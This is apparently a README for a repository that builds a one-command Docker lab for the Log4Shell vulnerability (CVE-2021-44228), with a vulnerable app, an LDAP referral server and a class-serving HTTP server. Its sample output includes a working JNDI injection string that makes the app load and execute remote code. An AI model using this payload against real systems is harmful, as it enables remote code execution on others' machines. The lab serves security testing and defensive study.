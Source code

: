 # Full-chain dockerized Log4Shell (CVE-2021-44228)

Log4Shell (CVE-2021-44228) is a critical vulnerability in the popular log4j2 logging package.
This vulnerability is extremely easy to exploit, and was fixed in log4j2 version 2.15.
This repository goal is to automate and construct the environment through a single click by using `docker-compose` and containers.
This could be useful for:

- Testing difference java version easily.
- Testing different payloads without heavy setup.
- Capturing easily the traffic for security protection measures.

The setup contains:

- `vuln` - vulnarable code using log4j2
- `marshalsec` - An LDAP server serving the exploit to log4j JDNI request
- `httpserver` - A simple python server serving the compiled exploit java class file

Further explanation cab be reached here:
https://www.lunasec.io/docs/blog/log4j-zero-day/

## Usage

Build and run all the containers

```bash
sudo docker-compose up --build
```

Once everything is up and running, you could see the next message, indicating the exploit was successful:

```
marshalsec_1   | Send LDAP reference result for Exploit redirecting to http://http-server:8888/Exploit.class
vuln_1         | Hello from exploit!
vuln_1         | 17:26:26.531 [main] ERROR log4j - ${jndi:ldap://marshalsec:1389/Exploit}
```

Behind the scenes, the vulnerable code is requesting the `Exploit` class from the LDAP server, and executes it.
You can freely modify the `exploit/Exploit.java` file to make custom exploits.

## Notes

In recent JDK version, the variable `com.sun.jndi.ldap.object.trustURLCodebase` is set to `false` by default, thus stopping effectively the attack. Thats why I set the java version to older than that.